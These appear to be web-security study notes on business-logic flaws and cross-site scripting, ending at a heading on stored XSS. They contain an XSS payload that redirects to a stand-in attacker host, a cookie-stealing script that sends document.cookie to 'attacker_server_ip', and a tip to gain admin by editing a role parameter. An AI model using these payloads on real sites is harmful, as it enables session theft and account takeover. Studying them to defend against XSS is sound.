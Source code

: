 -Become admin
(modify the parameter from "customer" when you create an account to "admin")
-Buy something (similar to the porswigger labs)

Exercises:

Business logical errors from portswigger labs.


# SQLI #


# XSS #


Example of a threat on the URL:

```
https://subscribe.example.com?email=<script>location="http://attacker.com";</script>
```
Since the malicious script gets incorporated into the page, the victim’s
browser will think the script is part of that site. Then the injected script can
access any resources that the browser stores for that site, including cookies

and session tokens. Attackers can, therefore, use these scripts to steal infor-
mation and bypass access control.




The previous example can be concatenated with this other one:

```
<script>image = new Image();
image.src='http://attacker_server_ip/?c='+document.cookie;</script>
```

This script contains JavaScript code to load an image from the attacker’s
server, with the user’s cookies as part of the request. The browser will send
a GET request to the attacker’s IP, with the URL parameter c (for cookie)
containing the user’s document.cookie, which is the victim user’s cookie on
the current site. In this way, attackers can use the XSS to steal other users’
cookies by inspecting incoming requests on their server logs. Note that
if the session cookie has the HttpOnly flag set, JavaScript will not be able
to read the cookie, and therefore the attacker will not be able to exfiltrate
it. Nevertheless, XSS can be used to execute actions on the victim’s behalf,
modify the web page the victim is viewing, and read the victim’s sensitive
information, such as CSRF tokens, credit card numbers, and any other
details rendered on their page.


## Types of XSS ##


### There are three kinds of XSS: ###
**-Stored XSS** 

